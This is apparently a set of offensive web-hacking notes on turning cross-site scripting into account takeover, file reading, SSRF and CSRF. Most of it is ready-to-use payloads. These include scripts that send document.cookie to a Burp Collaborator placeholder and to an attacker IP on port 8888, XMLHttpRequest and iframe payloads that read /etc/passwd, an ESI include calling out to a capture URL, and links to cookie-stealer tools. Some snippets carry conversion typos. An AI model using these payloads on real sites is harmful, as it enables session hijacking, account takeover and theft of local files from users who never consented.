 * Self XSS to ATO

```python
## convert self xss to reflected one
copy response in a file.html -> it will work
```

* XSS to ATO

```jsx
<script>
fetch('<https://BURP-COLLABORATOR-SUBDOMAIN>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

```jsx
## Cookie stealing through xss
<https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py>
<https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md>
<script>var i=newImage;i.src="http://172.30.5.46:8888/?"+document.cookie;</script>
<img src=x onerror=this.src='<http://172.30.5.46:8888/?'+document.cookie;>>
<img src=x onerror="this.src='<http://172.30.5.46:8888/?'+document.cookie>; this.removeAttribute('onerror');">
```

* XSS to RCE

[https://swarm.ptsecurity.com/researching-open-source-apps-for-xss-to-rce-flaws/](https://swarm.ptsecurity.com/researching-open-source-apps-for-xss-to-rce-flaws/)

* XSS to LFI

```jsx
<script%00>
 x=new XMLHttpRequest;
 x.onload=function(){document.write(this.responseText)};
 x.open("GET","file:///etc/passwd");x.send();
 </script%00>

<script>	x=new XMLHttpRequest;	x.onload=function(){ document.write(this.responseText)	};	x.open("GET","file:///etc/passwd");	x.send();</script>

<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</scrip>
```

* XSS to SSRF

```python
<esi:include src="<http://yoursite.com/capture>" />
```

* XSS to CSRF
*   XSS to CSRF [https://link.medium.com/ct4S2BiJYwb](https://link.medium.com/ct4S2BiJYwb)
